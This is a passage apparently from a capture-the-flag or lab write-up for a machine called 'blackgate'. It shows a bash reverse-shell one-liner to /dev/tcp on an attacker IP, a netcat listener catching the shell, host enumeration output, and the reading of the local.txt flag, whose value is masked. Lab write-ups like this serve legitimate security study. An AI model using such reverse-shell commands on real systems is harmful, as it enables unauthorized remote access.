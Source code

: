 I used the following command to establish the reverse shell connection:
```
$ /bin/bash -c 'bash -i >& /dev/tcp/192.168.45.224/22 0>&1'
```

```sh
$ nc -nvlp 22
listening on [any] 22 ...
connect to [192.168.45.224] from (UNKNOWN) [192.168.149.176] 55558
bash: cannot set terminal process group (875): Inappropriate ioctl for device
bash: no job control in this shell
prudence@blackgate:/tmp$ 
```

And, I found a `local.txt` file in `/home/prudence`.
```sh
prudence@blackgate:~$ whoami && hostname && ifconfig                                                                
whoami && hostname && ifconfig                                                                                      
prudence                                                                                                            
blackgate                                                                                                           
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                                                        
        inet 192.168.149.176  netmask 255.255.255.0  broadcast 192.168.149.255                                      
        ether 00:50:56:ab:0b:03  txqueuelen 1000  (Ethernet)                                                        
        RX packets 72460  bytes 4834902 (4.8 MB)                                                                    
        RX errors 0  dropped 38  overruns 0  frame 0                                                                
        TX packets 72148  bytes 3957664 (3.9 MB)                                                                    
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0                                                  
                                                                                                                    
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536                                                                        
        inet 127.0.0.1  netmask 255.0.0.0                                                                           
        inet6 ::1  prefixlen 128  scopeid 0x10<host>                                                                
        loop  txqueuelen 1000  (Local Loopback)                                                                     
        RX packets 500  bytes 38144 (38.1 KB)                                                                       
        RX errors 0  dropped 0  overruns 0  frame 0                                                                 
        TX packets 500  bytes 38144 (38.1 KB)                                                                       
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0                                                  
                                                                                                                    
prudence@blackgate:~$ cat /home/prudence/local.txt                                                                  
cat /home/prudence/local.txt                                                                                         
c------------------------------6
```

---